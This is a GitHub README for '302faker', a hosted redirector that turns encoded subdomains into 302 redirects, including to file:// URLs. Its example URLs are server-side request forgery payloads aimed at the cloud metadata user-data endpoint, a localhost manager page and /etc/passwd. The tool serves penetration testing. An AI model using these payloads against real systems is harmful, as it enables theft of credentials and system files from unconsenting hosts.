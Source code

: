 # 302faker

A Simple HTTP 302 Location-Header redirector with `file://` support.

### Usage: 

`curl http://patch.rip/t/302/http`


A Simple 302 Location redirector that redirects to the netloc part with some tricks:




`curl -I https://redirect_me__dev___etc___passwd.patch.rip/t/302/http`

```
    HTTP/2 302 
    date: Wed, 05 Oct 2022 11:26:41 GMT
    content-type: text/plain
    content-length: 33
    location: https://redirect_me.dev/etc/passwd
    fn-call-id: 01GEKY95TJNG8G010ZJ000001K
    x-served-by: redirect_me__dev___etc___passwd.patch.rip
    cf-cache-status: DYNAMIC
    report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=kSsgESvJJWwWoAuAW%2BAac6Z8JA1T9m26ucscfUbc5vAmwU7UU34oSQmmgQC0OBUttwJF1g9PTMRYd9ROZaN8%2F8Vyw3VOwhNP0nNYoc0adaHFgE88UCg6vPT0YAjrZYDYM7YQy05Rqwz23FxpwFdYQPFS0ca6MebVBTo7IQ%3D%3D"}],"group":"cf-nel","max_age":604800}
    nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
    server: cloudflare
    cf-ray: 7555cdbd289d3762-MXP
    alt-svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400
``` 

Following replacements take place:

- redirect = redirect.replace('___', '/')
- redirect = redirect.replace('__', '.')

If you want to redirect to plain `http://` start with prepend `_`
Finally, starting with `__` will use `file://` as handler

Examples:

- http(s)://_169__254__169__254___latest___user-data.patch.rip/t/302/http
- http(s)://_localhost___manager___html.patch.rip/t/302/http
- http(s)://___etc___passwd.patch.rip/t/302/http


Made with 🤬 in 🇩🇪
